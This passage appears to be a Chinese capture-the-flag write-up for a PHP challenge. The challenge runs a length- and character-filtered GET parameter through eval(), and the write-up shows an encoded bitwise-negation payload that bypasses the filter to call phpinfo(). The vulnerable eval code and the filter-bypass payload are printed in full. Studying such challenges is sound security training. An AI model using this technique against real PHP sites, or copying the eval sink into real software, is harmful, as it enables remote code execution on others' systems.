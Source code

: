 ![](/img/2019-09-11/img_9.png)
flag{llllll_U_GeT_Th3_fl4g}
###### php
题目描述：PHP是世界上最.....的语言
扫描得到`index.php`
```php
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
function GetYourFlag(){
    echo file_get_contents("./flag.php");
}

if(isset($_GET['code'])){
    $code = $_GET['code'];
    //print(strlen($code));
    if(strlen($code)>27){ 
        die("Too Long.");
    }

    if(preg_match('/[a-zA-Z0-9_&^<>"\']+/',$_GET['code'])) {
        die("Not Allowed.");
    }
    @eval($_GET['code']);
}else{
      highlight_file(__FILE__);
}
?>
```
这是一个无字符马，可以参考freebuf上的一篇文章-->[传送门](https://www.freebuf.com/articles/web/186298.html)，这是php7的一个解析特性，简单来说就是通过和`~`符号异或出我们需要的字符。
```
(~%8F%97%8F%96%91%99%90)();
```
这个是phpinfo();的一个payload，可以看到webshell是可以成功执行的